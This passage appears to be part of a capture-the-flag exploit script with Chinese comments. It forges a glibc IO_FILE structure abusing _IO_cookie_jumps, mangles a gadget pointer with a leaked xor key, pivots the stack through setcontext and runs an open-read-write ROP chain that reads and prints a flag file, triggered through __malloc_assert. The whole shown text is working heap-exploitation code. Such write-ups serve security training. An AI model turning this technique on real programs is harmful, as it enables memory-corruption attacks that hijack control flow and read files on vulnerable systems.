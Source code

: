    ```python
   xor_key = heap_addr + 0x3A20
   success("xor_key ==>" + hex(xor_key))
   
   # ORW
   syscall = read_addr+16
   flag = heap_addr+0x2C00
   
   # open(0,flag)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(pop_rax_ret)+p64(2)
   orw+=p64(syscall)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(open_addr)
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(read_addr)     
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(write_addr)
   
   # ========== 伪造IO_FILE 1 ==========
   chunk1_addr = heap_addr + 0x2760         #当前large bin 的地址 ==> 伪造IO_FILE的堆地址
   
   file  = p64(0) + p64(0)                  #_IO_read_end    _IO_read_base
   file += p64(0) + p64(0) + p64(0)         #_IO_write_base  _IO_write_ptr _IO_write_end
   file += p64(0) + p64(0)                  #_IO_buf_base    _IO_buf_end
   file += p64(0) * 8                       #_IO_save_base ~ _codecvt
   file += p64(heap_addr) + p64(0)*2        #_lock   _offset  _codecvt
   file += p64(0)                           #_wide_data
   file += p64(0) *3                        #_freeres_list ~ __pad5
   file += p64(0) + p64(0)*2                #_mode  _unused2 (2dword)
   
   file +=p64(_IO_cookie_jumps_addr + 0x38) #vtable
   
   rdi_data     = chunk1_addr + 0xf0
   rdx_data     = chunk1_addr + 0xf0
   stack_change = chunk1_addr + 0x1c0
   
   gadget = 0x000000000014b760 + libc_base
   encrypt_gadget = rotate_left_64(gadget^xor_key,0x11)
   # ========== cookie ==========
   file += p64(rdi_data)                    #__cookie
   file += p64(encrypt_gadget)              #__io_functions.read
   file += p64(0) + p64(rdx_data)           #_IO_write_base _IO_write_ptr
   file += p64(0)*2 + p64(setcontext_addr)  #gadget中call setcontext_addr
   
   file += p64(0) * 15 + p64(stack_change) + p64(ret) #setcontext+61传参
   file += p64(0) * 4
   
   # stack change addr
   file += orw
   debug()
   edit(0,file)
   add(0x4b0,15)   # 触发 __malloc_assert
   run()
   ```